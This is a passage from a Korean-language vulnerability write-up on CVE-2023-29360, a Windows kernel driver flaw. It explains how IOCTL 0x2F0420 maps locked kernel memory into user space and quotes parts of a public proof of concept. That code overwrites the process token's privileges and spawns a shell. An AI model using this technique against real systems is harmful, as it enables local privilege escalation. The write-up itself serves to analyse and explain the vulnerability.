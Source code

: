 이를 통해 유저 영역에서 임의의 커널 주소 공간으로 MDL을 잠그는 것이 가능합니다. 이를 어떻게 악용할까요?

# Exploit
IoControlCode == 0x2F0420일 경우에 호출되는 ConsumeTx는 FSFrameMdl::MapPages를 호출하게되는데, 이를 통해 사용자 영역의 주소를 앞서 잠근 커널 주소의 물리 메모리와 매핑 시킬 수 있습니다.
```c
__int64 __fastcall FSStreamReg::ConsumeTx(FSStreamReg *this, struct FSFrameInfo *a2)
{
  ...
      v11 = FSFrameMdl::MapPages(
              (FSFrameMdl *)v9,
              *((struct _EPROCESS **)this + 7),
              *((struct _EPROCESS **)this + 8),
              (struct FSFrameInfo *)((char *)a2 + 136 * v10 + 40));
  ...
}
```
이렇게 매핑된 현재 프로세스의 권한 정보를 가진 물리 메모리 영역을 덮어씀으로써 권한 상승을 할 수 있습니다.

# PoC

PoC는 <a href="https://github.com/Nero22k/cve-2023-29360">여기</a>에서 확인할 수 있습니다.

PoC의 일부를 확인해보면 다음과 같습니다.
```c
int main()
{
	...
	tokenAddress = GetTokenAddress();

	uint64_t privaddr = tokenAddress + OFFSET_OF_TOKEN_PRIVILEGES;
	
	...
	
	success = PublishTx(DeviceH3, privaddr); // 토큰 권한 영역
	
	uint8_t *mappedAddress = NULL;

	success = ConsumeTx(DeviceH3, &mappedAddress); // 유저 영역에 토큰 권한 영역 매핑

	...

	if(mappedAddress != NULL)
	{
		// Enable all privileges
		memset(mappedAddress, 0xFF, 0x10);
		spawnShell();
	}
	
	...
}
```
앞서 살펴본 취약점으로 사용자 영역에 커널 영역의 물리주소를 매핑하고 이를 덮어쓴 후, 쉘을 실행시키는 것을 볼 수 있습니다.
